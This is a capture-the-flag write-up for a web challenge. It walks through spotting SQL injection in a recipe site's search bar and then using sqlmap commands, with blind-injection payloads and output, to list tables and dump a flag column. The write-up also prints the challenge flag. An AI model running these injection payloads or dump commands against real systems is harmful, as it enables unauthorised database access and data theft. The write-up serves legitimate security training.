

# The Color Drained from His Face
Web, 300 Points

## Description:
If you're in the USA then you know that we had a holiday this week. We call it Thanksgiving, and while its original meaning is ultimately a dark tale, we've given the holiday new meaning in the from of a time of observance and reflection upon all of the things in our lives that we appreciate. We express gratitude for the things that keep us going, make things possible, and give us meaning.

Except most people in the world aren't that insightful or perceptive, and generally feel entitled to things. So really it's about violent Black Friday shopping, hating your family, and watching sports that inexplicably play on that day.

Of course, the most important thing Thanksgiving is about: Overindulging. Though I have to admit, I've got a pretty awesome recipe. The key is the stuffing. See, I take some normal sage stuffing, quinoa, and lemon juice and I mix it all up into a wet paste. Really get a union of flavors together. Then I inject that stuff right on up there into the turkey. Really get it in there because turkeys get these little hidden spots that you might not see from just looking. The lemon really gives the turkey a delightful scent of industrial cleaning solution that kids really love.

Feel free to try it out for yourself. I got the recipe from Thanksgiving Delights. They seem to also have a lot of other recipes for your table.

## Solution:

When we scroll on the [homepage](http://34.135.223.176:1928/) of the website, we can see an interesting entry.

When we click on this entry, it takes us to the [search page](http://34.135.223.176:1928/search). 



The text inside the card is distorted with [Zalgo text](https://en.wikipedia.org/wiki/Zalgo_text). We can copy the text and remove it using an [online tool](https://unzalgo.com/): 

``Sȅcretş Qǔȩlled Lưrkỉṉg Ṣṷmmớn Quïèscȩńţ Leviảthảns Şhądöws Qųįvèŗ Lamëńtįng Speçtérs Quiĕțly Lơǒmȋṉg``


This suggests SQL injection. We can manually test the search bar: 

Using the ``'`` character gives me an Internal Server Error. Using ``;`` gets us a 400 error saying 
```
That was mean. I know ur IP address (192.168.1.12) and I am a hacker. I am always behind you, lurking in the shadows. Much like the ancient samurai of Tsushima, with sharp blades and knives woven tightly at their waist, my computer is my katana. Stand against me and you won't even feel the blade as it surgically cuts through your body, from your throat all the way to your stomach and thighs. Only then, will the bleeding ensue. Be very careful with what you write in this thread. If I like you, I may transfer 100 XRP to you through the blockchain. Challenge my wrath, though, and prepare to face my judgement. 0100010101101 If you can decode this message, you will find the secret access codes to the White House servers.
```

We know this is likely an sql injection so we can use [sqlmap](https://sqlmap.org/) to attack the database.

First, we need to out what database is being used:

```shell
sqlmap -u http://34.135.223.176:1928/search?query=1 --batch --dbs --level 5
```

```shell
......
Parameter: query (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: query=1%' AND 6743=6743 AND 'wkyi%'='wkyi

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: query=1%' AND 2642=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'PKZn%'='PKZn

[INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
```

Next, we need to find the tables in the database:

```shell
sqlmap -u http://34.135.223.176:1928/search?query=1 --batch --dbs --level 5 --tables
```

```shell
......
[INFO] retrieved:
[WARNING] reflective value(s) found and filtering out
1
[INFO] retrieved: recipes
<current>
[1 table]
+---------+
| recipes |
+---------+
```

Now that we have the table name we can find the columns:

```shell
sqlmap -u http://34.135.223.176:1928/search?query=1 --batch --dbs --level 5 -T recipes --columns
```

``` shell
[INFO] retrieved:
[WARNING] reflective value(s) found and filtering out
CREATE TABLE recipes (         id INTEGER PRIMARY KEY,         title TEXT NOT NULL,         content TEXT NOT NULL,         ingredients TEXT,         instructions TEXT,         flag TEXT      )
Database: <current>
Table: recipes
[6 columns]
+--------------+---------+
| Column       | Type    |
+--------------+---------+
| content      | TEXT    |
| flag         | TEXT    |
| id           | INTEGER |
| ingredients  | TEXT    |
| instructions | TEXT    |
| title        | TEXT    |
+--------------+---------+
```

The ``flag`` column likely contains the flag so lets dump it:

```shell
sqlmap -u http://34.135.223.176:1928/search?query=1 --batch --dbs --level 5 -T recipes --columns -C flag --dump
```

```shell
.....
Database: <current>
Table: recipes
[13 entries]
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| <blank>                               |
| <blank>                               |
| <blank>                               |
| <blank>                               |
| <blank>                               |
| <blank>                               |
| <blank>                               |
| poctf{uwsp_7h3_5leep3r_mu57_4w4k3n}   |
| <blank>                               |
| <blank>                               |
| <blank>                               |
|  |
| <blank>                               |
+---------------------------------------+
...
```

The flag: ``poctf{uwsp_7h3_5leep3r_mu57_4w4k3n}``


